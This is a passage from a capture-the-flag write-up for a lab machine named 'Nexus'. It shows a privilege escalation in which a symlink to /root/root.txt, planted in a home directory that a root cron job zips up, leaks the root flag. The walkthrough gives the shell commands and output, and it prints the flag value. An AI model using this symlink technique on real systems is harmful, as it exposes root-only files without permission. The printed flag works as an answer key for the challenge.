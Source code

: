 it's a simple script that zips the home directory of `achour` then copies the archive to `/var/backups/`.

looks pretty basic and secure, don't you think?

nope, since we have full access to the archived directory which is `achour`'s home directory, we can create a symlink that points to any file we want. once root zips the directory, it will include the file that the symlink points to, and after it places the archive in `/var/backups` we can retrieve it and extract it since it's setting the ownership of the zip file to `achour`.then we will get the content of target file in that symlink we did earlier.

let's try to read the root flag using this technique.

so we browse to `/home/achour`, then we create a symlink that points to `/root/root.txt` :

```plaintext
achour@Nexus:~$ ln -s /root/root.txt root
```

now we wait 1 minute for the cronjob to execute again, then we copy the generated zip file `/var/backups/achour_home.zip` to the `/tmp` directory then we extract it :

```plaintext
achour@Nexus:/tmp$ unzip achour_home.zip 
Archive:  achour_home.zip
   creating: home/achour/
 extracting: home/achour/.editor-pass  
 extracting: home/achour/user.txt    
  inflating: home/achour/.shipment-details.txt.swp  
  inflating: home/achour/shipment-details.txt  
   creating: home/achour/.cache/
 extracting: home/achour/.cache/motd.legal-displayed  
 extracting: home/achour/root
```

now let's get into the extracted directory and see if the root file is there :

```plaintext
achour@Nexus:/tmp$ cd home/achour/
achour@Nexus:/tmp/home/achour$ ls
root  shipment-details.txt  user.txt
achour@Nexus:/tmp/home/achour$ cat root 
NEXUS{66765defc7f1cbedbc8fbc9e055a81db}
```

that worked and we were able to get the root flag!

## Flag

`NEXUS{66765defc7f1cbedbc8fbc9e055a81db}`
